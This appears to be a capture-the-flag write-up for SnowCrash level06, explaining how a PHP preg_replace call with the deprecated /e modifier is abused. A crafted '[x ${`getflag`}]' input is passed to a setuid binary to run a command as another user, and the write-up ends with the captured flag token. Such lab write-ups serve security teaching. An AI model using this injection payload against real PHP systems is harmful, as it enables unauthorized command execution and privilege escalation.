



We see 2 files owned by the flag user.
````
level06@SnowCrash:~$ ls -la level*
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
````

In the file level06.php, you can see that in the function
````
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
````

The function uses the deprecated and vulnerable 'e' modifier.
It will allow us to pass a function to a script and run it as another user:
so `/(\[x (.*)\])/e` will process the command and
run it will call the `y` function with it.

To write text that can pass through a regular expression, we will use the site:
https://regex101.com/



Now let's write this text to a file. We do not have permission to create files, so we will save it in `/tmp` folder.

    echo '[x ${`getflag`}]' > /tmp/command

And then pass the file as an argument:

    ./level06 /tmp/command



token: `wiok45aaoguiboiki2tuin6ub`